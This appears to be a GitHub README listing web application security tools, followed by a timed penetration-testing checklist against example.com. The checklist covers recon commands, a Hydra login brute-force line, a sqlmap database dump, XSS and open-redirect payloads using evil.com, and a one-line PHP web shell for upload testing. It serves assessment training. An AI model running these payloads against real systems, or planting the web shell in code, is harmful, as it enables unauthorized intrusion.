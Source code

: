 # webappnote

Apps 
 
# Security Tools and Techniques

This repository contains a compilation of various security tools, techniques, and resources commonly used in penetration testing and web application security assessments.

---

## Security Tools

### General Tools

- **[pphack](https://github.com/edoardottt/pphack)**: Specializes in client-side prototype pollution scanning.
- **[RVuln](https://github.com/yangr0/RVuln)**: Specializes in XSS scanning.
- **[OWASP ZAP](https://www.zaproxy.org/)**: Multi-purpose tool with a repeater similar to Burp Suite.
- **[Web-Scanner](https://github.com/Akshay7591/Web-Scanner?tab=readme-ov-file)**: Runs multiple enumeration scanners (Nmap, Whois, Traceroute, Nikto, etc.) at once.
- **[WhatWeb](https://github.com/jakbin/whatweb)**: A simpler alternative to the above tools with fewer features.
- **[OSTE-Meta-Scan](https://github.com/OSTEsayed/OSTE-Meta-Scan)**: Runs multiple tools like ZAP, Wapiti, Skipfish, Nikto, and Nuclei.
- **[Wapiti](https://wapiti-scanner.github.io/)**: A web application scanner.
- **[Nikto](https://github.com/sullo/nikto)**: A widely used vulnerability scanner.
- **[Nuclei](https://github.com/projectdiscovery/nuclei)**: A fast and customizable vulnerability scanner.
- **[Lynis](https://github.com/CISOfy/Lynis)**: A security auditing tool for UNIX-based systems.
- **[Trufflehog](https://github.com/trufflesecurity/Trufflehog-Chrome-Extension)**: Browser extension to find secrets on webpages as they load.
- **[MITMProxy](https://mitmproxy.org/)**: An open-source proxy for intercepting and modifying HTTP and HTTPS traffic.

### Enumeration Tools

- **Nmap**: Network exploration tool and vulnerability scanner.
- **Gobuster**: A tool for directory and DNS subdomain busting.
- **Feroxbuster**: A tool for directory brute-forcing and discovering hidden web content.
- **ffuf**: A fast web fuzzing tool.
- **wfuzz**: A web application fuzzer used for brute-forcing and testing hidden paths.

### 1. Information Gathering
- Whois Lookup  
  ```bash
  whois example.com
DNS & Subdomain Enumeration
bash

Copy
dig example.com any
amass enum -d example.com
sublist3r -d example.com
HTTP Headers & Server Info
bash

Copy
curl -I https://example.com
nikto -h https://example.com
Check robots.txt
bash

Copy
curl https://example.com/robots.txt
2. Mapping the Application

Directory & File Discovery
bash

Copy
gobuster dir -u https://example.com -w /path/to/wordlist.txt
Burp Suite Spider (if available)
Priority 2: Authentication & Session Testing (15 minutes)

3. Authentication Testing

Test default creds & simple brute force with Hydra
bash

Copy
hydra -l admin -P /path/to/passwords.txt example.com http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
Check JWT tokens (decode & manipulate in Burp)
4. Session Management

Inspect cookies for Secure, HttpOnly flags
bash

Copy
curl -I https://example.com
Use Burp Suite to test session fixation & timeout
Priority 3: Injection, XSS & URL Redirect Testing (15 minutes)

5. SQL Injection

Quick automated scan with SQLMap
bash

Copy
sqlmap -u "https://example.com/page.php?id=1" --batch --dbs
Manual payloads in Burp Repeater (e.g., ' OR '1'='1)
6. Cross-Site Scripting (XSS)

Automated scan with XSStrike
bash

Copy
xsstrike -u "https://example.com/search?q=test"
Manual payloads:
html

Copy
<script>alert(1)</script>
"><img src=x onerror=alert(1)>
7. Open Redirect / URL Redirect Testing

Test URL parameters that redirect users, e.g.:

Copy
https://example.com/redirect?url=http://evil.com
Payloads to test:

Copy
http://evil.com
//evil.com
///evil.com
\evil.com
javascript:alert(1)
Use Burp Suite to intercept and modify redirect parameters
Priority 4: CSRF, File Upload & Security Misconfigurations (10 minutes)

8. CSRF Testing

Check for CSRF tokens on forms using Burp Suite
Replay requests without tokens to test protection
9. File Upload Testing

Try uploading a simple web shell or bypass file type restrictions using Burp Suite
Common payloads:
shell.php with <?php system($_GET['cmd']); ?>
Rename extensions (e.g., .php.jpg)
Modify Content-Type header in Burp to bypass filters
10. Security Misconfigurations

Nikto scan
bash

Copy
nikto -h https://example.com
Check HTTP methods with Nmap
bash

Copy
nmap --script http-methods -p 80,443 example.com


### Directory & Subdomain Enumeration

- **Subdomain Scan**: 
  ```bash
  gobuster dns -d <ip addr> -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -i --wildcard

